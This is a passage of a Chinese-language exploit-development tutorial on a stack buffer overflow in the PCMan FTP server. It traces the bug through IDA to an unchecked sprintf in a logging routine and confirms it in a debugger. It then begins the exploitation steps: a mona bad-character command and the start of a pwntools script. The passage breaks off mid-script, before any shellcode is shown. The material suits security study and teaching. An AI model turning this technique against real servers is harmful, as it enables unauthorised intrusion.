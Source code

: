 栈回溯，利用 IDA 查看造成缓冲区赋值的函数

0x00417428 处函数 write_char()，向指针地址写入一个字节的数据，地址赋值不可能只写一个字节，一定有一个函数循环调用 write_char()

![](https://attach.52pojie.cn/forum/202104/13/155337po31ejxzo3j667p3.png)

上一层 0x00412ced，sprintf 函数，继续返回上一层 0x00403EE6，即 sub_403E60() 函数

![](https://attach.52pojie.cn/forum/202104/13/155339epclcxlz1aa3xyyl.png)

这里使用 sprintf 向 Buffer 缓冲区赋值

sprintf 第二个参数 aDDD02d02d05dSS 是格式化格式 %d/%d/%d [%02d:%02d] (%05d) %s> %s

格式化参数 v5 是 int 类型，a2 是函数参数 char * 类型

猜想：是没有控制用户的输入长度，直接将字符串 a2 复制到局部变量缓冲区 buffer 导致栈溢出

验证，在. text:00403EE6 E8 D4 ED 00 00    call    _sprintf 设置断点，查看参数 a2

![](https://attach.52pojie.cn/forum/202104/13/155341hrzxvumdlo0t7lvf.png)

查看 0012edc4 的值，确定是用户的输入字符串，猜想正确

![](https://attach.52pojie.cn/forum/202104/13/155343fc3ereree3aerisc.png)

这里格式化获取系统时间，并将数据写入文件，可能是为了记录信息到日志中，查看 PCMan ftp 的日志文件，更加确认了我们的猜想

![](https://attach.52pojie.cn/forum/202104/13/155345bfshoang6heqcoi6.png)

![](https://attach.52pojie.cn/forum/202104/13/155347xhmgg8m5ijs4zzji.png)

四、漏洞利用
------

### 1. 利用条件

靶机 windows xp sp3 关闭 DEP 保护，使栈上的数据可执行

### 2. 利用过程

#### 2.1 排除坏字符

利用 mona 插件生成一个 0x00 到 0xff 的 bytearray，发送 payload，比对哪个字符发送后会破坏 payload，将其排除即可

```
!py mona bytearray -b "\x00\x0a\0d"

```

```
from pwn import *
context(log_level="debug")

bytearray = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0b\x0c\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22"
"\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42"
"\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62"
"\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82"
"\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2"
"\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2"
"\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2"
```